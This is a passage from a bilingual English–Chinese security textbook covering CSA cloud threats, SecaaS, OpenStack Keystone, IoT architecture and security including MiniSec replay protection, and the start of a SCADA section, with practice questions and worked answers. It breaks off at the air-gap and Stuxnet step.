The Cloud Security Alliance (CSA) ranks twelve cloud-specific threats, most severe first, and analysed them with STRIDE. For an answer give what happens, the STRIDE category and two countermeasures.云安全联盟（CSA）列出了十二类云特有威胁，按严重程度从高到低排序，并用 STRIDE 对其进行了分析。作答时，要说明会发生什么、STRIDE 类别，以及两项对策。
| Threat威胁 | What happens发生的情况 | Main countermeasures主要对策 |
|---|---|---|
| Data breaches数据泄露 | sensitive data viewed, stolen or used by the unauthorized敏感数据被未经授权的人员查看、窃取或使用 | encryption in transit and at rest; strong key management; strong API access control传输中和静态数据加密；强化密钥管理；强化 API 访问控制 |
| Weak identity, credential and access management身份、凭据与访问管理薄弱 | poor provisioning and deprovisioning, weak authentication账户开通与撤销不善，认证薄弱 | strong authentication, prompt deprovisioning, auditable access control强认证、及时撤销权限，以及可审计的访问控制 |
| Insecure APIs不安全的 API | the management APIs are the cloud's control plane管理 API 是云的控制平面 | analyse the interface security model; strong authentication and access control with encrypted transmission; know the dependency chain分析接口的安全模型；通过加密传输实现强认证和访问控制；了解依赖链 |
| System and application vulnerabilities系统与应用漏洞 | exploitable OS and software bugs in a shared environment共享环境中可被利用的操作系统和软件缺陷 | risk analysis, vulnerability detection, patch management, staff training风险分析、漏洞检测、补丁管理、员工培训 |
| Account hijacking账户劫持 | stolen credentials; wider attack surface; a hijacked tenant attacks others as an insider凭据被盗；攻击面扩大；被劫持的租户可作为内部人员攻击其他租户 | no credential sharing, two-factor authentication, proactive monitoring, know CSP policies and SLAs禁止共享凭据、双因素认证、主动监控，了解 CSP 的政策和 SLA |
| Malicious insiders恶意内部人员 | CSP administrators and security providers hold extreme trustCSP 管理员和安全服务提供者享有极高的信任 | supplier assessment, HR requirements in the contract, transparency and compliance reporting, breach notification供应商评估、合同中的人事要求、透明度与合规报告、泄露通知 |
| Advanced persistent threats高级持续性威胁 | long, stealthy intrusion to steal data长期、隐蔽的入侵以窃取数据 | threat intelligence威胁情报 |
| Data loss数据丢失 | permanent loss of data and backups by accidental or malicious deletion因意外或恶意删除而永久丢失数据及备份 | regular backups, geographic redundancy, cloud-to-premise copy定期备份、异地冗余、云到本地的副本 |
| Insufficient due diligence尽职调查不足 | consumer chooses a CSP and contract without risk analysis消费者未经风险分析即选择 CSP 与合同 | verify infrastructure, certification, the CSP's own diligence and its data protection核实基础设施、认证情况、CSP 自身的尽职情况及其数据保护措施 |
| Abuse and nefarious use滥用与恶意使用 | easy registration and free trials let attackers spam, run malware, launch DoS注册和免费试用门槛低，使攻击者能够发送垃圾邮件、运行恶意软件、发起拒绝服务攻击 | stricter registration, card-fraud monitoring, inspect customer traffic, watch blacklists加强注册审核、监控银行卡欺诈、检查客户流量、监视黑名单 |
| Denial of service拒绝服务 | public, advertised providers are natural targets公开宣传的提供者天然是攻击目标 | ongoing threat intelligence; automated detection and defence (Chapter 23)持续的威胁情报；自动化检测与防御（见第 23 章） |
| Shared technology vulnerabilities共享技术漏洞 | caches and GPUs lack multi-tenant isolation; isolated VMs are only part of the answer缓存和 GPU 缺乏多租户隔离；虚拟机隔离只是答案的一部分 | secure configuration, monitoring for unauthorized change, strong admin authentication, patching SLAs, vulnerability scans安全配置、监控未授权更改、强化管理员认证、打补丁的 SLA、漏洞扫描 |
An older CSA list adds unknown risk profile: the client cedes control, so it must define roles and request logs and infrastructure details.较早的 CSA 列表增加了“未知风险概况”：客户放弃了控制权，因此必须明确角色，并要求提供日志和基础设施细节。
Step 4: data protection and advanced persistent threats第 4 步：数据保护与高级持续性威胁
Data can be lost or exposed through deletion without backup, a lost key or unauthorized access. The cloud multiplies these risks. Databases are offered in two forms.数据可能因未备份而被删除、因密钥丢失或因未授权访问而丢失或泄露。云会放大这些风险。数据库有两种提供形式。
| Form形式 | Meaning含义 |
|---|---|
| Multi-instance（多实例） | A separate DBMS on its own virtual machine for each subscriber, who controls roles, authorization and administration. More control每个订户各自拥有一台虚拟机上的独立 DBMS，由订户控制角色、授权和管理。控制力更强 |
| Multi-tenant多租户 | A shared predefined environment where rows carry a subscriber tag. It looks exclusive but depends on the provider's secure set-up共享的预定义环境，每行数据带有订户标记。它看起来是独占的，但取决于服务商的安全配置 |
Data must be secured at rest, in transit and in use, with access control. For data at rest the ideal is client-side encryption: the client encrypts the database, stores only ciphertext and keeps the key. The CSP cannot read it. Corruption and denial of service remain risks.数据必须在静态、传输中和使用中都得到保护，并配合访问控制。对于静态数据，理想的做法是客户端加密：客户端加密数据库，只存储密文，并自己保管密钥。CSP 无法读取数据。数据损坏和拒绝服务仍是风险。
An advanced persistent threat（高级持续性威胁）(APT) is an intrusion that gets into a network and stays undetected for a long time, aiming to steal data rather than cause damage. It targets high-value sectors such as defence, manufacturing and finance. Its ten stages:高级持续性威胁（APT）是一种入侵行为，它潜入网络并长期不被发现，目的是窃取数据而非造成破坏。它针对国防、制造和金融等高价值行业。其十个阶段如下：
- Background research on the target.对目标进行背景调查。
- Initial attack, usually social engineering that delivers malware.初始攻击，通常是通过社会工程学投递恶意软件。
- Foothold: a small evasive package that calls home for more.立足点：一个小型的隐匿软件包，它会回连以下载更多组件。
- Persistence across reboots with a lasting command channel.持久化：借助持久的命令通道，在重启后仍能保持驻留。
- Enterprise reconnaissance.企业内部侦察。
- Lateral movement.横向移动。
- Privilege escalation.权限提升。
- Gathering and encrypting the target data, which defeats pattern-based detection.收集并加密目标数据，从而规避基于模式的检测。
- Exfiltration, that is, sending the data out.数据外泄，即把数据发送出去。
- Long-term presence with dormant periods.长期潜伏，期间有休眠阶段。
The main defence is threat intelligence（威胁情报）: knowledge of severe external threats (APTs, exploits, zero-days). It creates detection points well before exfiltration.主要的防御手段是威胁情报：了解外部的严重威胁（APT、漏洞利用、零日漏洞）。它能在数据外泄之前很早就建立检测点。
Practice练习
Q1. (Classify) Give the STRIDE category of each incident and the CSA threat it best illustrates: (a) an attacker logs in with a phished administrator password; (b) a provider employee copies a customer's disk images; (c) a flaw in a management API lets one tenant change another tenant's settings; (d) botnet requests make a public service unreachable.Q1.（分类）指出每一事件所属的 STRIDE 类别，以及它最能说明的 CSA 威胁：(a) 攻击者使用经钓鱼获取的管理员口令登录；(b) 提供者的一名员工复制了客户的磁盘镜像；(c) 管理 API 中的缺陷使一个租户能够更改另一个租户的设置；(d) 僵尸网络发出的请求使一项公开服务无法访问。
Answer
(a) Spoofing identity; account hijacking. (b) Information disclosure; malicious insiders. (c) Elevation of privilege (and tampering); insecure APIs. (d) Denial of service; the denial-of-service threat, countered by threat intelligence and automated defences.(a) 身份欺骗；账户劫持。(b) 信息泄露；恶意内部人员。(c) 权限提升（并涉及篡改）；不安全的 API。(d) 拒绝服务；拒绝服务威胁，可通过威胁情报和自动化防御加以应对。
易错：一个事件常常同时落在几个 STRIDE 类别；答题时先写最直接的一类，再补充后续影响。
Q2. (Explain) Why is "the client encrypts and keeps the key" the ideal protection for data at rest in a cloud? Name two things it does not protect against.Q2.（解释）为什么“客户端加密并自行保管密钥”是云中静态数据的理想保护方式？请指出它不能防范的两类问题。
Answer
The CSP stores only ciphertext and has no key, so malicious insiders, a tenant who breaks isolation or a thief of retired disks cannot read the data while the key stays secure. It does not protect availability or integrity of the stored object (deletion, corruption, DoS), so backups and redundancy are still needed. It also moves risk to key management, and the CSP cannot process the data in use.CSP 只存储密文，且不持有密钥，因此只要密钥安全，恶意内部人员、突破隔离的租户或窃取退役磁盘的人都无法读取数据。但它不能保护所存储对象的可用性或完整性（删除、损坏、拒绝服务），因此仍需备份和冗余。同时，风险转移到了密钥管理上，而且 CSP 无法处理使用中的数据。
Q3. (Calculation, beyond the pages) A SaaS application needs two independent cloud services, each with availability 99.9%. (a) Find the composite availability and yearly downtime when both are required. (b) Find them when the same service runs as two independent replicas in different regions and one suffices.Q3.（计算，超出教材页面范围）某 SaaS 应用需要两项相互独立的云服务，每项的可用性均为 99.9%。(a) 求两项服务都必需时的组合可用性及每年停机时间。(b) 若同一服务在不同地区运行两个相互独立的副本，且只需其中一个即可工作，求组合可用性及每年停机时间。
Answer
(a) \(A=0.999\times0.999=0.998001\) (99.8001%); downtime \(=(1-0.998001)\times525{,}600\approx1{,}050.7\) min \(\approx17.5\) h per year. (b) \(A=1-(1-0.999)^2=1-10^{-6}=0.999999\); downtime \(=10^{-6}\times525{,}600\approx0.526\) min \(\approx31.5\) s per year. Dependencies in series multiply availabilities and lower the total; redundancy in parallel multiplies the unavailabilities. Both results assume independent failures, which shared infrastructure may violate.(a) \(A=0.999\times0.999=0.998001\)（99.8001%）；每年停机 \(=(1-0.998001)\times525{,}600\approx1{,}050.7\) 分钟，即 \(\approx17.5\) 小时。(b) \(A=1-(1-0.999)^2=1-10^{-6}=0.999999\)；每年停机 \(=10^{-6}\times525{,}600\approx0.526\) 分钟 \(\approx31.5\) 秒。串联的依赖关系使各项可用性相乘，从而降低总体可用性；并联冗余则使各项不可用率相乘。两种结果都假定故障相互独立，而共享的基础设施可能违背这一假设。
Cloud security as a service and OpenStack ★云安全即服务与 OpenStack
Security as a service（安全即服务）(SecaaS) is a segment of the SaaS offering: security applications and services delivered via the cloud, to cloud-based or on-premises systems. The CSA lists ten categories.安全即服务（SecaaS）是 SaaS 产品的一个细分：通过云交付安全应用和服务，服务对象可以是基于云的系统，也可以是本地系统。CSA 列出了十个类别。
| Category类别 | Service服务 |
|---|---|
| Identity and access management (IAM)身份与访问管理（IAM） | verify identity, then grant matching access; provision and deprovision users; exchange attributes with the enterprise identity provider验证身份，然后授予相应的访问权限；为用户开通和撤销账户；与企业身份提供方交换属性 |
| Data loss prevention (DLP)数据防泄漏（DLP） | protect data at rest, in motion and in use; rules on permitted operations保护静态、传输中和使用中的数据；制定允许操作的规则 |
| Web securityWeb 安全 | real-time filtering of web traffic proxied through the CSP对经 CSP 代理的 Web 流量进行实时过滤 |
| E-mail security电子邮件安全 | control inbound and outbound mail: phishing, attachments, spam, signing, encryption控制入站和出站邮件：钓鱼、附件、垃圾邮件、签名、加密 |
| Security assessments安全评估 | third-party audits; the CSP provides tools and access points第三方审计；CSP 提供工具和访问入口 |
| Intrusion management入侵管理 | IDS and IPS at cloud entry points and on servers (Chapter 22)在云的入口点和服务器上部署 IDS 与 IPS（见第 22 章） |
| Security information and event management (SIEM)安全信息与事件管理（SIEM） | aggregate, correlate and analyse logs and events for real-time alerts汇聚、关联并分析日志和事件，以产生实时告警 |
| Encryption加密 | for data at rest, e-mail, management and identity data; key management is the hard part用于静态数据、电子邮件、管理数据和身份数据的加密；密钥管理是难点 |
| Business continuity and disaster recovery业务连续性与灾难恢复 | backups at several locations, failover, redundancy, distributed data centers多地点备份、故障切换、冗余和分布式数据中心 |
| Network security网络安全 | perimeter and server firewalls, DoS protection边界防火墙和服务器防火墙、拒绝服务防护 |
OpenStack is an open-source cloud operating system for multi-tenant IaaS. Its security module Keystone has four services. Identity (who you are, with roles), token (issued after authentication and checked by services), service catalog (registered endpoints that clients look up) and policies (what each role may do).OpenStack 是一个面向多租户 IaaS 的开源云操作系统。其安全模块 Keystone 包含四项服务：身份（你是谁，以及你的角色）、令牌（认证后签发，并由各服务进行校验）、服务目录（已注册的端点，供客户端查询）和策略（每个角色可以做什么）。
Practice练习
Q1. (Match) Which SecaaS category fits each case: (a) all web traffic is proxied through the provider to block malware; (b) logs from firewalls, servers and applications are correlated to raise alerts; (c) encrypted copies are kept in two distant data centers with failover; (d) rules forbid copying customer records to personal storage?Q1.（匹配）下列各情形分别对应哪一类 SecaaS 类别：(a) 所有 Web 流量都经由提供者代理，以阻断恶意软件；(b) 防火墙、服务器和应用的日志被关联分析，以产生告警；(c) 加密副本保存在两个相距遥远的数据中心，并支持故障切换；(d) 规则禁止将客户记录复制到个人存储中？
Answer
(a) Web security. (b) Security information and event management (SIEM). (c) Business continuity and disaster recovery. (d) Data loss prevention.(a) Web 安全。(b) 安全信息与事件管理（SIEM）。(c) 业务连续性与灾难恢复。(d) 数据防泄漏（DLP）。
The Internet of Things: devices, fog and cloud ★★物联网：设备、雾计算与云
Goal. List the five components of an IoT-enabled thing, describe the layers from device to cloud, compare cloud with fog, and compute data rates.目标。 列出启用物联网的事物的五个组成部分，描述从设备到云的各层，比较云与雾，并计算数据速率。
Step 1: what an IoT device contains第 1 步：物联网设备包含什么
In words: an IoT device senses or acts, thinks a little, and talks over the radio.用文字表述：物联网设备能够感知或执行动作，有一点计算能力，并通过无线电通信。
The Internet of Things（物联网）(IoT) is the expanding interconnection of smart devices, from appliances to tiny sensors, mostly through cloud systems. The IoT proper is the fourth generation of end systems: sensor and actuator technology, which means single-purpose wireless devices inside larger systems, billions of them. The earlier three generations are IT (PCs and servers), operational technology（运营技术）(OT: machines with embedded IT, such as SCADA) and personal technology (smartphones and tablets). An IoT-enabled thing has five components.物联网（IoT）是智能设备（从家电到微型传感器）不断扩展的互联，大多通过云系统连接。严格意义上的物联网是第四代终端系统：传感器和执行器技术，也就是嵌入大型系统中的单一用途无线设备，数量以数十亿计。前三代分别是 IT（个人电脑和服务器）、运营技术（OT：嵌入了 IT 的机器，例如 SCADA）和个人技术（智能手机和平板电脑）。启用物联网的事物包含五个组成部分。
| Component组成部分 | Function功能 |
|---|---|
| Sensor（传感器） | measures a physical, chemical or biological parameter and outputs a proportional electrical signal, analog or digital测量物理、化学或生物参数，并输出与之成比例的电信号（模拟或数字） |
| Actuator（执行器） | receives a signal from a controller and acts on the environment接收控制器的信号，并对环境施加作用 |
| Microcontroller（微控制器） | the "smart" in a smart device智能设备中的“智能”所在 |
| Transceiver（收发器） | transmits and receives data, usually wirelessly (Wi-Fi, ZigBee, Bluetooth)收发数据，通常为无线方式（Wi-Fi、ZigBee、蓝牙） |
| RFID | identifies items by radio: tags on objects, animals or people are read, and sometimes rewritten, by readers通过无线电识别物品：物体、动物或人身上的标签由读取器读取，有时还可由读取器改写 |
Step 2: edge, fog, core and cloud第 2 步：边缘、雾、核心与云
In words: data flow from the edge up through fog and core to the cloud, and fog filters it near the sensors.用文字表述：数据从边缘经由雾层和核心层向上流向云，雾层在传感器附近对数据进行过滤。

- Edge: sensors, actuators and gateways（网关）. A gateway translates between device protocols and higher-level networks and may aggregate data.边缘：传感器、执行器和网关。网关在设备协议与更高层网络之间进行转换，并可以汇聚数据。
- Fog（雾计算）or edge computing: processing near the sensors, because raw volumes are huge. An oil field generates about 1 TB per day.雾计算（或边缘计算）：在传感器附近进行处理，因为原始数据量非常庞大。一个油田每天产生约 1 TB 数据。
- Core: a high-capacity backbone that links dispersed fog networks and outside networks.核心：高容量的骨干网，连接分散的雾网络与外部网络。
- Cloud: storage and processing of the aggregated data, and the applications that manage devices and analyse their data.云：存储和处理汇聚后的数据，并运行用于管理设备和分析数据的应用。
Fog does five operations: evaluation (process higher up or not?), formatting, expanding or decoding (adding context such as origin), distillation or reduction (summaries) and assessment (threshold or alert reached?).雾层执行五类操作：评估（是否需要在更高层处理？）、格式化、扩展或解码（添加起源等上下文）、提炼或约简（生成摘要），以及判定（是否达到阈值或触发告警？）。
| Property属性 | Cloud云 | Fog雾 |
|---|---|---|
| Processing location处理位置 | center中心 | edge边缘 |
| Latency延迟 | high高 | low低 |
| Control控制 | centralized集中式 | distributed分布式 |
| Availability可用性 | 99.99% | highly volatile, highly redundant高度易变、高度冗余 |
| Devices设备 | tens or hundreds of millions数千万或数亿 | tens of billions数百亿 |
| Main content generator主要内容生成者 | humans人 | devices and sensors设备和传感器 |
Practice练习
Q1. (Define) List the five components of an IoT-enabled thing and say which one senses, which acts and which identifies.Q1.（定义）列出物联网设备的五个组成部分，并说明哪一个负责感知、哪一个负责执行、哪一个负责识别。
Answer
Sensor (senses: converts a physical parameter into a proportional electrical signal), actuator (acts on the environment on a controller's signal), microcontroller (processing), transceiver (communication) and RFID (identifies objects through tags and readers).传感器（感知：将物理参数转换为与之成比例的电信号）、执行器（依据控制器信号作用于环境）、微控制器（处理）、收发器（通信）以及 RFID（通过标签和读写器识别对象）。
Q2. (Calculation) An aircraft generates 2 TB per hour. (a) What average rate results if all data go to the cloud? (b) What remains if fog processing keeps 5% of the volume? (c) Name two fog operations that achieve this.Q2.（计算）一架飞机每小时产生 2 TB 数据。（a）若全部数据都发送到云端，平均速率为多少？（b）若雾计算处理保留其中 5% 的数据，剩余的速率为多少？（c）列举两种能实现这一效果的雾计算操作。
Answer
(a) \(2\times10^{12}\times8/3{,}600\approx4.44\times10^{9}\) bit/s \(=4.44\) Gb/s. (b) \(5\%\) of this is \(0.222\) Gb/s \(=222\) Mb/s. (c) Distillation/reduction (forward summaries) and assessment (forward only threshold crossings and alerts); evaluation, formatting and expanding/decoding also prepare the data.（a）\(2\times10^{12}\times8/3{,}600\approx4.44\times10^{9}\) bit/s，即 \(=4.44\) Gb/s。（b）其中 \(5\%\) 为 \(0.222\) Gb/s，即 \(=222\) Mb/s。（c）提炼/缩减（仅转发摘要）与评估（仅转发越限事件和告警）；评价、格式化以及展开/解码同样属于数据准备操作。
IoT security ★★物联网安全
Goal. Explain why IoT is hard to secure, list the ITU-T requirements, apply the Cisco framework, and explain how MiniSec stops replay.目标。 解释物联网为何难以保障安全，列出 ITU-T 的要求，应用 Cisco 框架，并解释 MiniSec 如何阻止重放。
Step 1: why IoT is hard to secure第 1 步：物联网为何难以保障安全
In words: many IoT devices are too small to protect themselves and cannot be patched.用文字表述：许多物联网设备太小，无法保护自身，而且无法打补丁。
IoT is among the least mature areas of network security. In 2016 the Mirai botnet used hundreds of thousands of IoT devices with default credentials for a DDoS attack that disrupted Internet access on the US east coast.物联网是网络安全中最不成熟的领域之一。2016 年，Mirai 僵尸网络利用数十万台使用默认凭据的物联网设备发起 DDoS 攻击，致使美国东海岸的互联网接入受到干扰。
- Constrained devices（受限设备）have little processing, memory and energy, so they usually have limited or no security.受限设备的处理能力、内存和能量都很有限，因此通常只有有限的安全能力，甚至没有。
- Zone of security. Gateways typically implement TLS and IPsec toward the central systems. Devices behind a gateway lie outside that zone. Constrained devices without a gateway have no secure channel to the centre.安全区域。 网关通常在其与中心系统之间实现 TLS 和 IPsec。网关后面的设备位于该安全区域之外。没有网关的受限设备则没有通往中心的安全通道。
- The patching vulnerability（补丁漏洞）. Chip makers ship firmware as fast and cheaply as possible. Device makers choose chips by price and features and rarely touch the firmware. End users often cannot patch or lack the information. Hundreds of millions of devices stay exploitable.补丁漏洞。芯片厂商尽可能快、尽可能便宜地交付固件。设备厂商按价格和功能选择芯片，很少改动固件。终端用户往往无法打补丁，或者缺少相关信息。数以亿计的设备因此仍然可被利用。
- Consequences. A compromised sensor lets attackers inject false data. A compromised actuator lets them operate machinery.后果。 被攻陷的传感器使攻击者能够注入虚假数据；被攻陷的执行器则使他们能够操控机器。
Step 2: ITU-T requirements and the gateway第 2 步：ITU-T 要求与网关
ITU-T Y.2066 lists six security requirements.ITU-T Y.2066 列出了六项安全要求。
| Requirement要求 | Content内容 |
|---|---|
| Communication security通信安全 | confidentiality, integrity and privacy of data in transit传输中数据的机密性、完整性和隐私性 |
| Data management security数据管理安全 | the same properties for stored and processed data对存储和处理中的数据保持相同的性质 |
| Service provision security服务提供安全 | no unauthorized access or fraudulent service provision; user privacy防止未授权访问和欺诈性服务提供；用户隐私 |
| Integration of security policies and techniques安全策略与技术的整合 | consistent control over varied devices and user networks对各类设备和用户网络实施一致的控制 |
| Mutual authentication and authorization相互认证与授权 | before any device or user accesses the IoT, per policy在任何设备或用户访问物联网之前，依据策略执行 |
| Security audit安全审计 | data access and attempts are transparent, traceable and reproducible数据访问及访问尝试透明、可追溯且可复现 |
The gateway is the key element. It must identify every access to devices, authenticate devices and applications, protect stored and transferred data and privacy, and support self-diagnosis, remote maintenance and firmware updates. A gateway may be unable in practice to secure data stored on a device that cannot encrypt.网关是关键要素。它必须识别对设备的每一次访问，对设备和应用进行认证，保护存储与传输中的数据以及隐私，并支持自诊断、远程维护和固件更新。实际上，网关可能无法保护存储在不能加密的设备上的数据。
Step 3: the Cisco IoT security framework第 3 步：Cisco 物联网安全框架
Cisco's model has four levels: smart objects and embedded systems, the fog and edge network, the core network, and the data center and cloud. Smart objects are the most vulnerable, because they are physically exposed and run for years. Four capabilities span the levels.Cisco 模型有四个层级：智能对象与嵌入式系统、雾层与边缘网络、核心网络，以及数据中心与云。智能对象最脆弱，因为它们暴露在物理环境中，并且要运行多年。四项能力贯穿各层级。
- Role-based security: rights are assigned to roles and users to roles.基于角色的安全：权限分配给角色，用户分配给角色。
- Anti-tamper and detection: for devices and fog, which lie outside physical protection.防篡改与检测：用于设备和雾层，因为它们处于物理防护之外。
- Data protection and confidentiality: at all levels.数据保护与机密性：覆盖所有层级。
- IP protection: for data in motion between levels.IP 保护：用于各层级之间传输中的数据。
The secure IoT framework has four components.安全物联网框架包含四个组成部分。
- Authentication: identify devices without human credentials, by RFID, X.509 certificates or MAC address.认证：在没有人工凭据的情况下识别设备，依据可以是 RFID、X.509 证书或 MAC 地址。
- Authorization: control device access through the network. With authentication it enables data exchange and services.授权：通过网络控制设备的访问。与认证一起，它使数据交换和服务得以实现。
- Network-enforced policy: route and transport control, management and data traffic securely.网络执行的策略：以安全的方式路由并传输控制流量、管理流量和数据流量。
- Secure analytics (visibility and control): central management knows each device's identity and attributes and controls configuration, patch updates and threat countermeasures.安全分析（可见性与控制）：集中管理掌握每台设备的身份和属性，并控制配置、补丁更新和威胁对策。
A trust relationship（信任关系）is each partner's confidence in the other's identity and access rights.信任关系是各方对对方身份和访问权限的信心。
Step 4: MiniSec第 4 步：MiniSec
MiniSec is the link-layer security module of TinyOS, a minimal operating system for wireless sensor networks. It gives confidentiality, data authentication and replay protection at low energy and memory cost. It tolerates lost packets. It guarantees weak freshness: messages can be partially ordered without a local clock. It uses two building blocks.MiniSec 是 TinyOS 的链路层安全模块。TinyOS 是面向无线传感器网络的一个精简操作系统。它以很低的能耗和内存开销提供机密性、数据认证和重放保护。它能容忍丢包。它保证弱新鲜性：在没有本地时钟的情况下，消息可以被部分排序。它由两个构件组成。
- Skipjack: a small, fast block cipher with a 64-bit block. Its 80-bit key is \(2^{24}\) times the DES key space, but below the 128 bits of AES.Skipjack：一种小型、快速的分组密码，分组长度为 64 位。其 80 位密钥是 DES 密钥空间的 \(2^{24}\) 倍，但低于 AES 的 128 位。
- OCB mode（authenticated encryption）: one pass gives ciphertext of equal length plus an authentication tag. It uses \(n+2\) block-cipher calls for \(n\) blocks. A wrong tag marks the packet invalid. The nonce is a counter. Each key is shared by one pair of devices.OCB 模式（认证加密）：一次处理即可得到长度相同的密文和一个认证标签。它对 \(n\) 个分组共使用 \(n+2\) 次分组密码调用。认证标签校验失败的数据包会被判定为无效。随机数是一个计数器。每把密钥只由一对设备共享。
The two modes protect against replay in different ways.这两种模式以不同方式防御重放。
| Mode模式 | Replay protection重放保护 |
|---|---|
| MiniSec-U (unicast)MiniSec-U（单播） | synchronized counters: the receiver keeps one counter per sender and rejects any packet whose counter is not larger than the last accepted one; a resynchronization protocol handles losses. A changing nonce also hides repeated messages.同步计数器：接收方为每个发送方保存一个计数器，并拒绝计数器不大于上一次接受值的任何数据包；重新同步协议负责处理丢包情况。变化的 nonce 还能隐藏重复消息。 |
| MiniSec-B (broadcast)MiniSec-B（广播） | no per-sender state: time is split into epochs; the nonce and Bloom-filter key is \(\text{nodeID}.E_i.C_{ab}\) (sender, current epoch, shared counter). Old epochs fail the nonce check; repeats inside the epoch are caught by the Bloom filter.不保存每个发送方的状态：时间被划分为若干纪元；nonce 与布隆过滤器的键为 \(\text{nodeID}.E_i.C_{ab}\)（发送方、当前纪元、共享计数器）。旧纪元的消息无法通过 nonce 检查；纪元内的重复消息则由布隆过滤器拦截。 |
A Bloom filter（布隆过滤器）is a bit array with several hash functions. Inserting an element sets some bits. Testing checks them. It has no false negatives, so a replay is always caught. False positives occasionally drop a fresh message.布隆过滤器是一个比特数组，配有若干个哈希函数。插入一个元素会置位若干比特，检测时则检查这些比特。它不会漏报，因此重放总会被捕获。偶尔会出现误报，从而丢弃一条新消息。
Practice练习
Q1. (Explain) What is the patching vulnerability, and why do compromised sensors and compromised actuators pose different risks?Q1.（解释）什么是补丁漏洞？被攻陷的传感器与被攻陷的执行器为什么构成不同的风险？
Answer
Embedded IoT devices ship with firmware flaws and have no practical way to be patched: chip makers want products fast and cheap, device makers pick chips on price and features and rarely modify the firmware, and users cannot patch or do not know how. Hundreds of millions of devices stay exploitable. A compromised sensor lets an attacker inject false data (an integrity problem); a compromised actuator lets the attacker operate machinery (physical harm).嵌入式物联网设备在出厂时就带有固件缺陷，且无法切实地打补丁：芯片厂商要求产品快速且廉价，设备厂商依据价格和功能选择芯片，很少修改固件，而用户既无法打补丁，也不知道如何操作。数以亿计的设备因此仍然可被利用。被攻陷的传感器可使攻击者注入虚假数据（完整性问题）；被攻陷的执行器则可使攻击者操控机械设备（造成物理损害）。
Q2. (Trace and calculation) A MiniSec-U receiver has last accepted counter 0 and receives counters 1, 2, 2, 5, 3, 6. (a) Which packets are accepted and why? (b) For a 40-byte payload and Skipjack's 8-byte blocks, how many block-cipher calls does OCB need, compared with about \(2n\) for separate encryption and MAC?Q2.（手工演算与计算）一个 MiniSec-U 接收方上一次接受的计数器为 0，之后依次收到计数器 1、2、2、5、3、6。（a）哪些数据包会被接受？为什么？（b）对于 40 字节的载荷和 Skipjack 的 8 字节分组，OCB 需要多少次分组密码调用？相比之下，分别进行加密和 MAC 大约需要 \(2n\) 次。
Answer
(a) Accepted: 1, 2, 5, 6. The second 2 equals the last counter (a replay) and 3 is smaller than 5 (old or replayed; if genuine, it is lost, the price of strict replay protection). Counter 5 is accepted although 3 and 4 are missing, because lost packets are tolerated and a resynchronization protocol handles larger gaps. (b) \(40/8=5\) blocks, so OCB needs \(5+2=7\) calls versus about \(2\times5=10\), which is 30% fewer.（a）被接受的是 1、2、5、6。第二个 2 与上一次接受的计数器相等，属于重放；3 小于 5，属于旧消息或重放；若它是合法消息，则已丢失，这是严格重放保护的代价。计数器 5 虽然缺少 3 和 4，仍被接受，因为系统容忍数据包丢失，且重新同步协议负责处理较大的间隔。（b）共 \(40/8=5\) 个分组，因此 OCB 需要 \(5+2=7\) 次调用，而分别处理约需 \(2\times5=10\) 次，即少 30%。
SCADA and industrial control system security ★★★SCADA 与工业控制系统安全
Goal. Name the parts of a SCADA system and say how ICS differ from office IT. Decode a Modbus request, explain why air gaps fail with Stuxnet as the case, list defences, and read a risk matrix.目标。 说出 SCADA 系统的各组成部分，并说明 ICS 与办公 IT 有何不同。解码一个 Modbus 请求，以 Stuxnet 为例解释气隙为何失效，列出防御措施，并读懂风险矩阵。
Step 1: architecture of a SCADA system第 1 步：SCADA 系统的体系结构
In words: SCADA = a control room that watches and steers machines far away through small controllers at the machines.用文字表述：SCADA = 一个控制室，通过设备旁的小型控制器，远程监视并操控机器。
SCADA（数据采集与监控系统）(supervisory control and data acquisition) systems monitor and control physical processes such as power grids, water, pipelines and mines. Together with distributed control systems (DCS) and PLC-based systems they form industrial control systems (ICS). The parts:SCADA（数据采集与监控系统）用于监视和控制电网、供水、管道和矿山等物理过程。它们与分布式控制系统（DCS）和基于 PLC 的系统一起构成工业控制系统（ICS）。其组成部分如下：
- Field devices: sensors and actuators such as valves, pumps and breakers.现场设备：传感器和执行器，例如阀门、泵和断路器。
- PLCs and RTUs (remote terminal units): run control logic and talk to the field devices.PLC 和 RTU（远程终端单元）：运行控制逻辑，并与现场设备通信。
- Control center: the SCADA server (master terminal unit), the HMI (human-machine interface), the historian (data log) and the engineering workstation.控制中心：SCADA 服务器（主终端单元）、HMI（人机界面）、历史数据库（数据日志）和工程师工作站。
- Communication network: serial lines, radio, cellular and now IP.通信网络：串行线路、无线电、蜂窝网络，以及如今的 IP 网络。
Step 2: how ICS differ from office IT第 2 步：ICS 与办公 IT 的区别
| Criterion比较项 | Office IT办公 IT | ICS |
|---|---|---|
| First priority首要优先级 | Confidentiality机密性 | Availability and safety (loss of life, environmental damage, lost production)可用性与安全（生命损失、环境破坏、生产损失） |
| Component life部件寿命 | Years数年 | Decades数十年 |
| Patching打补丁 | Routine常规进行 | Needs vendor validation and downtime需要供应商验证并停机 |
| Timing计时 | Delay is tolerated可以容忍延迟 | Real time实时 |
| Network assumption网络假设 | Hostile network敌对网络 | Designs assumed isolated, trusted networks设计假定网络是隔离且可信的 |
Step 3: legacy protocols without authentication第 3 步：没有认证的传统协议
Modbus (serial and Modbus/TCP on port 502) and DNP3 were designed for isolated serial lines where every device was trusted. They have no authentication, no encryption and no integrity protection beyond a checksum. A device executes any well-formed command from any host that can reach it. An attacker can read process data, inject or replay commands, spoof sensor values or flood a device. Secure variants exist (DNP3 Secure Authentication, OPC UA, IEC 62351) but are rarely deployed in legacy plants. Example: writing a coil to start a pump.Modbus（串行版以及端口 502 上的 Modbus/TCP）和 DNP3 是为隔离的串行线路而设计的，在那里每台设备都被信任。它们没有认证，没有加密，除校验和外也没有完整性保护。设备会执行来自任何可达主机的任何格式正确的命令。攻击者可以读取过程数据、注入或重放命令、伪造传感器数值，或者对设备进行洪泛。安全变体存在（DNP3 Secure Authentication、OPC UA、IEC 62351），但在老旧工厂中很少部署。例：写入一个线圈以启动一台泵。
Step 4: air gaps and Stuxnet第 4 步：气隙与 Stuxnet
In words: an air gap = no cable between the control network and the outside, but people and USB sticks still cross it.用文字表述：气隙 = 控制网络与外部之间没有电缆连接，但人员和 U 盘仍会穿越它。
